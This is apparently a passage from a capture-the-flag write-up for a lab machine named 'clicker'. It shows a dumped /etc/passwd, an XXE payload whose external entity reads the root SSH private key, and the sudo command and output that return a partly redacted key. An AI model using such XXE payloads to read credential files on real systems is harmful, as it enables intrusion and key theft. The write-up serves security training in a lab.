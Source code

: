 ```
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
jack:x:1000:1000:jack:/home/jack:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
_rpc:x:115:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:116:65534::/var/lib/nfs:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
</file>

```

#### SSH Key

There are a handful of files I could try to read. `root.txt` would be a start, but I’d rather go for a shell. There happens to be a root SSH key when I set the XML to:

```

<?xml version="1.0"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "/root/.ssh/id_rsa">]>
<file>&ent;</file>

```

The result is:

```

jack@clicker:~$ sudo http_proxy=http://10.10.14.6:8080 /opt/monitor.sh 
<?xml version="1.0"?>
<!DOCTYPE replace [
<!ENTITY ent SYSTEM "/root/.ssh/id_rsa">
]>
<file>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmQBWGDv1n5tAPBu2Q/DsRCIZoPhthS8T+uoYa6CL+gKtJJGok8xC
...[snip]...
UyOYOJc1Mv8zkAAAAMcm9vdEBjbGlja2VyAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
</file>

```
